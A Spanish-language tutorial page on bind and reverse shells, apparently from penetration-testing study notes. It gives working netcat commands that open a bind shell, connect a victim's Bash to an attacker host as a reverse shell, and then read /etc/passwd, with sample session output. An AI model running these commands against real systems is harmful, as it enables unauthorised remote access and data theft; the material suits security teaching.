 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Invertir y vincular shells(Reverser/Bind Shells)

Un _shell_ es una utilidad que actúa como interfaz entre un usuario y el sistema operativo.&#x20;

En Linux existen varios entornos de shell, como Bash, ksh y tcsh.En Windows el shell es el símbolo del sistema , que se invoca mediante cmd.exe.

Windows PowerShell es un shell de Microsoft más nuevo que combina la antigua funcionalidad CMD con un nuevo conjunto de instrucciones de scripting/cmdlet con funcionalidad de administración del sistema integrada. Los cmdlets de PowerShell permiten a los usuarios y administradores automatizar tareas complicadas con scripts reutilizables.

Con un shell de enlace, un atacante abre un puerto o un escucha en el sistema comprometido y espera una conexión. Esto se hace para conectarse a la víctima desde cualquier sistema y ejecutar comandos y manipular aún más a la víctima.&#x20;

<img src="../../../.gitbook/assets/file.excalidraw (3).svg" alt="" class="gitbook-drawing">

Un shell inverso es una vulnerabilidad en la que un sistema atacante tiene un oyente (puerto abierto y la víctima inicia una conexión con el sistema atacante.

<img src="../../../.gitbook/assets/file.excalidraw (7).svg" alt="" class="gitbook-drawing">

### Netcat

```
NAME
                 nc - TCP/IP swiss army knife

SYNOPSIS
             nc [-options] hostname port[s] [ports] ...
             nc -l -p port [-options] [hostname] [port]

DESCRIPTION
             netcat is a simple unix utility which reads and writes
data across network connections, using TCP or UDP protocol. It is
designed to be a reliable "back-end" tool that can be used directly
or easily driven..........>

```

Un atacante podría usar el comando **`nc -lvp 1234 -e /bin/bash`** en el sistema comprometido (192.168.78.6) para crear un escucha en el puerto **`1234`** y ejecutar ( **-e** ) el shell Bash ( **/bin/bash** ).

#### C_reación de un shell de enlace utilizando Netcat._

```
~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
```

> Windows **nc -lvp 1234 -e cmd.exe** Netcat.

En el sistema atacante (192.168.78.147), se utiliza el comando nc -nv 192.168.78.6 1234 para conectarse con la víctima**.** Una vez que el atacante (192.168.78.147) se conecta con la víctima (192.168.78.6), se invoca el comando **ls** y se muestran tres archivos en la pantalla del atacante.

#### _Conexión al Bind Shell mediante Netcat_

```
~# nc -nv 192.168.78.6 1234
(UNKNOWN) [192.168.78.6] 1234 (?) open
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
```

#### _Un atacante conectado a una víctima mediante un Bind Shell_

```
~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
connect to [192.168.78.6] from (UNKNOWN) [192.168.78.147] 52100 
```

Uno de los desafíos de usar shells de enlace es que si el sistema de la víctima está detrás de un firewall, el puerto de escucha podría estar bloqueado. Sin embargo, si el sistema de la víctima puede iniciar una conexión con el sistema atacante en un puerto determinado, se puede utilizar un shell inverso para superar este desafío.

Para crear un shell inverso, puede usar el comando **nc -lvp 666** en el sistema atacante para escuchar un puerto específico.

#### _Creación de un oyente en el sistema atacante para crear un shell inverso usando Netcat_

```
~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt 

```

Luego, en el host comprometido, puede usar el comando **nc 192.168.78.147 666 -e /bin/bash** para conectarse al sistema atacante.

_Conexión al sistema atacante (Shell inverso) mediante Netcat_

```
~$ nc 192.168.78.147 666 -e /bin/bash
```

Una vez que el sistema víctima (192.168.78.6) esté conectado al sistema atacante (192.168.78.147), puede comenzar a invocar comandos.

#### _Ejecutar comandos en el sistema de la víctima a través de un Shell inverso_

```
~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

<output omitted for brevity>

```
